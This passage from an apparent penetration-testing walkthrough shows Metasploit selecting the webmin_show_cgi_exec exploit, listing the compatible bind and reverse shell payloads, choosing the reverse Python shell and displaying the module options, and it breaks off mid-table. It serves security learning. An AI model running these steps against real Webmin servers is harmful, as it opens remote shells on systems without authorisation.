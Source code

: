 So we have a couple options available to us. I'll start out with 0 and see how it goes. I run `use 0` and then `show payloads` to see what's available.

```
msf6 > use 0
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > show payloads

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/bind_perl                                   normal  No     Unix Command Shell, Bind TCP (via Perl)
   1   payload/cmd/unix/bind_perl_ipv6                              normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   2   payload/cmd/unix/bind_ruby                                   normal  No     Unix Command Shell, Bind TCP (via Ruby)
   3   payload/cmd/unix/bind_ruby_ipv6                              normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   4   payload/cmd/unix/generic                                     normal  No     Unix Command, Generic Command Execution
   5   payload/cmd/unix/reverse                                     normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   6   payload/cmd/unix/reverse_bash_telnet_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   7   payload/cmd/unix/reverse_perl                                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   8   payload/cmd/unix/reverse_perl_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   9   payload/cmd/unix/reverse_python                              normal  No     Unix Command Shell, Reverse TCP (via Python)
   10  payload/cmd/unix/reverse_ruby                                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   11  payload/cmd/unix/reverse_ruby_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   12  payload/cmd/unix/reverse_ssl_double_telnet                   normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)
```

I decide to go with the reverse python shell, #9, and run `set payload 9`.

Let's look at what options are required to run this exploit by running the `options` command:

```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     10000            yes       The target port (TCP)
   SSL       true             yes       Use SSL
   USERNAME                   yes       Webmin Username
   VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
```